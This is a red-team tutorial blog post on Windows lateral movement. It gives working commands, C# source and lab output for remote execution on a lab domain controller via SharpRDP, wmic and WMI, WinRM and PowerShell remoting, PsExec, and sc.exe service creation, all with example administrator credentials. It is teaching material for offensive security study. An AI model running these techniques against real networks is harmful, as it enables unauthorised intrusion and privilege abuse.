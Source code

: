 ```yaml
---
title: "Lateral Movement 101"
date: 2021-10-12T09:25:13+01:00
authors:
    - RastaMouse
draft: false
---
```


This post was requested by a [Patron](https://www.patreon.com/_RastaMouse) and will provide a crash course in lateral movement techniques on Windows using both native utilities and custom C# tooling.  

The most common lateral movement techniques are performed via legitimate management channels including Remote Desktop (RDP), Windows Remote Management (WinRM) and Windows Management Instrumentation (WMI).  Platforms such as Windows Server Update Services (WSUS) and System Center Configuration Manager (SCCM) can also be abused.

These management protocols are effective because they provide legitimate remote access by design, and their use is not inherently mallicious or anomalous.  All an attacker need obtain is a set of privileged credentials or code execution in a privileged context.

## Remote Desktop

I think everyone has probably used RDP before.  It allows you to get a full GUI experience of a remote machine as if you were sat at it, optionally supporting clipboard sharing and remote drive mapping.  Attackers often operate via CLI driven tooling (e.g. Metasploit) and sometimes over high-latency connections.  For that reason, interacting with a remote target via a GUI is not always feasible (or enjoyable) which leads to a general preference for CLI attack tools.

[SharpRDP](https://github.com/0xthirteen/SharpRDP) utilises the terminal services library to provide GUI-less authentication and interaction (by sending virtual keystrokes into the "Run" (Win+R) dialogue).

```text
PS C:\> Test-NetConnection -ComputerName dc -Port 3389

ComputerName     : dc
RemoteAddress    : 10.10.120.1
RemotePort       : 3389
InterfaceAlias   : Ethernet
SourceAddress    : 10.10.120.101
TcpTestSucceeded : True

PS C:\> .\SharpRDP.exe computername=dc command=calc username=LAB\Administrator password=Passw0rd!
[+] Connected to          :  dc.lab.local
[+] Execution priv type   :  non-elevated
[+] Executing calc
[+] Disconnecting from    :  dc.lab.local
[+] Connection closed     :  dc.lab.local
```

<br />

## Windows Management Instrumentation

WMI is Microsoft's implementation of Web-Based Enterprise Management (WBEM), which is an industry standard for accessing management information of local or remote computers.  Applications that leverage WMI can get data or perform operations on said computers.

Windows comes with a native `wmic` utility that can be used to execute commands on a target.

```text
C:\>wmic /NODE:dc.lab.local /USER:Administrator /PASSWORD:Passw0rd! process call create calc
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 6548;
        ReturnValue = 0;
};
```

C# has a namespace called `System.Management` which can be used to perform the same.

```c#
private static void Main(string[] args)
{
    var target = args[0];
    var username = args[1];
    var password = args[2];
    var command = args[3];

    var conn = new ConnectionOptions
    {
        Username = username,
        Password = password
    };

    var scope = new ManagementScope($@"\\{target}\root\cimv2", conn);
    scope.Connect();
            
    var mClass = new ManagementClass(scope, new ManagementPath("Win32_Process"), new ObjectGetOptions());
    var parameters = mClass.GetMethodParameters("Create");
    parameters["CommandLine"] = command;

    var result = mClass.InvokeMethod("Create", parameters, null);

    Console.WriteLine("Return Value: {0}", result["ReturnValue"]);
    Console.WriteLine("Process ID  : {0}", result["ProcessID"]);
    }
}
```

```text
C:\>WmiDemo.exe dc.lab.local Administrator Passw0rd! calc
Return Value: 0
Process ID  : 6304
```

<br />

## Windows Remote Management

PowerShell can be used to interact with a host via WinRM.  `Enter-PSSession` creates a PowerShell session on the target and gives you an interactive command prompt.

```powershell
PS C:\> $username = "LAB\Administrator"
PS C:\> $password = ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential($username, $password)
PS C:\> Enter-PSSession -ComputerName dc.lab.local -Credential $cred
[dc.lab.local]: PS C:\Users\Administrator\Documents> hostname
dc
[dc.lab.local]: PS C:\Users\Administrator\Documents> whoami
lab\administrator
```

If you don't have an interactive prompt, `Invoke-Command` with `-ScriptBlock` can be used instead.

```powershell
PS C:\> Invoke-Command -ComputerName dc.lab.local -Credential $cred -ScriptBlock { hostname; whoami }
dc
lab\administrator
```

C# tooling requires a reference to `System.Management.Automation.dll` which is available from the PowerShell SDK.  Or if you're lazy like me, grab a copy from Lee Christenden's [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell/blob/master/PowerShellRunner/System.Management.Automation.dll) project.

```c#
private static void Main(string[] args)
{
    var target = args[0];
    var username = args[1];
    var password = args[2];
    var command = args[3];

    var securePass = new SecureString();

    foreach (var c in password.ToCharArray())
        securePass.AppendChar(c);

    var credential = new PSCredential(username, securePass);
    var uri = new Uri($"http://{target}:5985/WSMAN");
    var conn = new WSManConnectionInfo(uri, string.Empty, credential);

    using var runspace = RunspaceFactory.CreateRunspace(conn);
    runspace.Open();

    using var powershell = PowerShell.Create();
    powershell.Runspace = runspace;
    powershell.AddScript(command);
    powershell.AddCommand("Out-String");

    var result = powershell.Invoke();
    var output = string.Join(Environment.NewLine, result.Select(r => r.ToString()).ToArray());
            
    Console.WriteLine(output);
}
```

```text
C:\>WinRMDemo.exe dc.lab.local LAB\Administrator Passw0rd! "hostname; whoami"
dc
lab\administrator
```

<br />

## PsExec

PsExec is the name of a tool from [Sysinternals](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).

```text
C:\>PsExec64.exe \\dc.lab.local -u LAB\Administrator -p Passw0rd! -i cmd

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.20348.1]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname && whoami
dc
rto2\administrator
```

This works by copying `PSEXESVC.exe` to the target, then creating a new service to execute it.  This binary in turn spawns the specified process (cmd in this case), attaches to its standard in/out and sends data back and forth over named pipes.  To clean up, the service is then removed and `PSEXESVC.exe` deleted.

Interacting with the SCM is easy to replicate using the native `sc.exe` utility or in code.  The backend API `OpenSCManager` does not accept credentials, so all calls must occur within an authenticated session.

```text
C:\>runas /netonly /user:LAB\Administrator cmd.exe
Enter the password for LAB\Administrator:
Attempting to start cmd.exe as user "LAB\Administrator" ...

C:\Windows\system32>sc \\dc.lab.local create TestService binPath= "C:\Windows\System32\calc.exe"
[SC] CreateService SUCCESS

C:\Windows\system32>sc \\dc.lab.local start TestService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\Windows\system32>sc \\dc.lab.local delete TestService
[SC] DeleteService SUCCESS
```

Even though `start` threw an error, the command was executed and calc is running as SYSTEM.  Service binaries should technically be different from regular binaries, as they contain means of communicating directly with the SCM for status purposes.

Instead of creating a service (which is often used as an IOC), we can modify an existing one instead.  Connect to the SCM of a remote machine and enumerate services to find those with a startup type of Manual.  Change its `binPath` to whatever you want to exectute, start the service and then change the path back.